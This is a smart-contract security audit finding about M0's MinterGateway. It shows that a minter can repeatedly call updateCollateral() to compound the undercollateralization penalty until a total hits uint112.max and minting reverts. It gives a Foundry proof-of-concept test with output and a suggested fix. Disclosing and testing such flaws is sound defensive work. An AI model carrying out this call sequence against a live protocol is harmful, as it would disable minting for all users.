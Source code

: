 Salty Chili Cormorant

high

# Malicious minters can repeatedly penalize their undercollateralized accounts in a short peroid of time, which can result in disfunctioning of critical protocol functions, such as `mintM`.

## Summary

Malicious minters can exploit the `updateCollateral()` function to repeatedly penalize their undercollateralized accounts in a short peroid of time. This can make the `principalOfTotalActiveOwedM` to reach `uint112.max` limit, disfunctioning some critical functions, such as `mintM`.

## Vulnerability Detail

The `updateCollateral()` function allows minters to update their collateral status to the protocol, with penalties imposed in two scenarios:

1. A penalty is imposed for each missing collateral update interval.
2. A penalty is imposed if a minter is undercollateralized.

The critical issue arises with the penalty for being undercollateralized, which is imposed on each call to `updateCollateral()`. This penalty is compounded, calculated as `penaltyRate * (principalOfActiveOwedM_ - principalOfMaxAllowedActiveOwedM_)`, and the `principalOfActiveOwedM_` increases with each imposed penalty.

Given that validator provides timely information about the off-chain collateral (according to https://docs.m0.org/portal/overview/glossary#validator), a minter could potentially gather validator signatures with high frequency (for example, every minute). With a sufficient collection of signatures, a malicious minter could launch an attack in a very short timeframe, not giving validators time to deactivate the minter.

## Proof Of Concept

We can do a simple calculation, using the numbers from unit tests, mintRatio=90%, penaltyRate=1%, updateCollateralInterval=2000 (seconds). A malicious minter deposits `$100,000` t-bills as collateral, and mints `$90,000` M tokens. Since M tokens have 6 decimals, the collateral would be `100000e6`. Following the steps below, the malicious minter would be able to increase `principalOfActiveOwedM_` close to uint112.max limit:

1. Deposit collateral and mint M tokens.
2. Wait for 4 collateral update intervals. This is for accumulating some initial penalty to get undercollateralized.
3. Call `updateCollateral()`. The penalty for missing updates would be `4 * 90000e6 * 1% = 36e8`.
4. Starting from `36e8`, we can keep calling `updateCollateral()` to compound penalty for undercollateralization. Each time would increase the penalty by 1%. We only need `log(2^112 / 36e8, 1.01) ~ 5590` times to hit `uint112.max` limit.

Add the following testing code to `MinterGateway.t.sol`. We can see in logs that `principalOfTotalActiveOwedM` has hit uint112.max limit.

```bash
  penalty: 1 94536959275 94536000000
  penalty: 2 95482328867 95481360000
  penalty: 3 96437152156 96436173600
  penalty: 4 97401523678 97400535336
  penalty: 5 98375538914 98374540689
  penalty: 6 99359294302 99358286095
  penalty: 7 100352887244 100351868955
  penalty: 8 101356416116 101355387644
  penalty: 9 102369980277 102368941520
  penalty: 10 103393680080 103392630935
  ...
  penalty: 5990 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5991 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5992 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5993 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5994 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5995 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5996 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5997 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5998 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 5999 5192349545726433803396851311815959 5192296858534827628530496329220095
  penalty: 6000 5192349545726433803396851311815959 5192296858534827628530496329220095
```

```solidity
    // Using default test settings: mintRatio = 90%, penaltyRate = 1%, updateCollateralInterval = 2000.
    function test_penaltyForUndercollateralization() external {
        // 1. Minter1 deposits $100,000 t-bills, and mints 90,000 $M Tokens.
        uint initialTimestamp = block.timestamp;
        _minterGateway.setCollateralOf(_minter1, 100000e6);
        _minterGateway.setUpdateTimestampOf(_minter1, initialTimestamp);
        _minterGateway.setRawOwedMOf(_minter1, 90000e6);
        _minterGateway.setPrincipalOfTotalActiveOwedM(90000e6);

        // 2. Minter does not update for 4 updateCollateralIntervals, causing penalty for missing updates.
        vm.warp(initialTimestamp + 4 * _updateCollateralInterval);

        // 3. Minter fetches a lot of signatures from validator, each with different timestamp and calls `updateCollateral()` many times.
        //    Since the penalty for uncollateralization is counted every time, and would hit `uint112.max` at last.
        uint256[] memory retrievalIds = new uint256[](0);
        address[] memory validators = new address[](1);
        validators[0] = _validator1;

        for (uint i = 1; i <= 6000; ++i) {

            uint256[] memory timestamps = new uint256[](1);
            uint256 signatureTimestamp = initialTimestamp + i;
            timestamps[0] = signatureTimestamp;
            bytes[] memory signatures = new bytes[](1);
            signatures[0] = _getCollateralUpdateSignature(
                address(_minterGateway),
                _minter1,
                100000e6,
                retrievalIds,
                bytes32(0),
                signatureTimestamp,
                _validator1Pk
            );

            vm.prank(_minter1);
            _minterGateway.updateCollateral(100000e6, retrievalIds, bytes32(0), validators, timestamps, signatures);

            console.log("penalty:", i, _minterGateway.totalActiveOwedM(), _minterGateway.principalOfTotalActiveOwedM());
        }
    }
```

Note that in real use case, the penalty rate may lower (e.g. 0.1%), however, `log(2^112 / 36e8, 1.001) ~ 55656` is still a reasonable amount since there are 1440 minutes in 1 day (not to mention if the frequency for signature may be higher than once per minute). A malicious minter can still gather enough signatures for the attack.

## Impact

The direct impact is that `principalOfTotalActiveOwedM` will hit `uint112.max` limit. All related protocol features would be disfunctioned, the most important one being `mintM`, since the function would revert if `principalOfTotalActiveOwedM` hits uint112.max limit.

```solidity
        unchecked {
            uint256 newPrincipalOfTotalActiveOwedM_ = uint256(principalOfTotalActiveOwedM_) + principalAmount_;

            // As an edge case precaution, prevent a mint that, if all owed M (active and inactive) was converted to
            // a principal active amount, would overflow the `uint112 principalOfTotalActiveOwedM`.
>           if (
>               // NOTE: Round the principal up for worst case.
>               newPrincipalOfTotalActiveOwedM_ + _getPrincipalAmountRoundedUp(totalInactiveOwedM) >= type(uint112).max
>           ) {
>               revert OverflowsPrincipalOfTotalOwedM();
>           }

            principalOfTotalActiveOwedM = uint112(newPrincipalOfTotalActiveOwedM_);
            _rawOwedM[msg.sender] += principalAmount_; // Treat rawOwedM as principal since minter is active.
        }
```

## Code Snippet

- https://github.com/MZero-Labs/protocol/blob/main/src/MinterGateway.sol#L206
- https://github.com/MZero-Labs/protocol/blob/main/src/MinterGateway.sol#L303-L308

## Tool used

Foundary

## Recommendation

Consider only imposing penalty for undercollateralization for each update interval.
